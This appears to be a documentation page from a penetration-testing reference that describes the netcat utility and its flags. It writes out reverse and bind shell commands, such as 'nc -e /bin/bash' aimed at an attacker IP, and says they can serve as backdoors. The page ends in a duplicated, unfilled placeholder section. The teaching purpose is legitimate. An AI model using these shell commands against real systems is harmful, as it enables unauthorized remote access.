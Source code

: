 .. _netcat:

Netcat: The Network Swiss-Army Knife
====================================

.. index:: !netcat

+-----------+--------------------------------------+
|**OS**     | All major operating systems.         |
+-----------+--------------------------------------+
|**Website**| https://nc110.sourceforge.io/        |
+-----------+--------------------------------------+

+------------+---------------------------------------------------+
|                  **Reference  Walk-Throughs**                  |
+============+===================================================+
|`HackTheBox`|:ref:`Lame <Lame Exploitation>`                    |
+------------+---------------------------------------------------+
|`VulnHub`   |:ref:`Kioptrix Level 1 <Kioptrix Lv1 Samba>`       |
+------------+---------------------------------------------------+



What is netcat?
-------------
From the `homepage <https://nc110.sourceforge.io/>`_:

  `Netcat` is a simple Unix utility which reads and writes data across network connections, using TCP or UDP protocol.

While `netcat` might sound like a simple utility (it is), it is useful for an incredibly broad variety of network applications. For this reason, it has become an essential part of every hacker's toolkit.

`Netcat` was originally written for Unix-like systems. However, it has been ported to pretty much every OS on the planet.


How does it work?
-----------------
`Netcat` establishes raw TCP and UDP connections and allows you to interact with those connections manually (via standard input and output) or via scripts. Where most similar utilities (such as `telnet`) terminate the connection upon receipt of an "End-of-File" (EOF) byte, `netcat` instead keeps the connection open, transmitting and receiving data until the connection is broken by the network (or manually closed).

`Netcat` can also act as a server, binding to a specific port and listening for incoming connections. It can be scripted or accessed manually, regardless of whether it's used as client or server.


Using TOOL
----------
To use `netcat`, simply type ``nc`` on the command line, along with whatever arguments you wish to pass. Examples:

.. code-block:: none

    nc -vnlp 6666
    nc -vn -w 3 10.10.10.3 6200
    nc -nlp 6666 -e /bin/bash

At a minimum, `netcat` requires an IP and port number when running as a client, or a port number when running as a server.


``-e``: Pipe an Executable
~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -e /bin/bash 10.10.14.15 6666``

The ``-e`` flag tells `netcat` to bind the specified executable to the established network connection. Incoming data from the network is sent to the executable's standard input, and standard output is sent back over the network. This functionality can be used to establish backdoors in systems, among other actions. This is why the ``-e`` flag is commonly referred to as the "gaping security hole" in `netcat`, despite working exactly as intended.

.. note::

   Most modern OSes ship with a modified version of `netcat` with the ``-e`` option disabled, so as to close the "gaping security hole." However, even with these altered versions, `netcat` can be used as a backdoor; it just takes a little more effort.


``-l`` and ``-p``: Bind and Listen on Port
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -lp 6666``

Using the ``-l`` flag tells `netcat` to bind and listen on the port specified by the ``-p`` flag.

.. note::

   On most OSes, ports 0 through 1023 are reserved for privileged services, and require administrative privileges before they can be bound. If you wish to use `netcat` on one of these ports, you'll need to do so as a privileged user (such as ``root``).


``-v``: Verbose Output
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``example of use``

Explanation of the functionality provided by this command-line argument.


``-v``: Verbose Output
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``example of use``

Explanation of the functionality provided by this command-line argument.
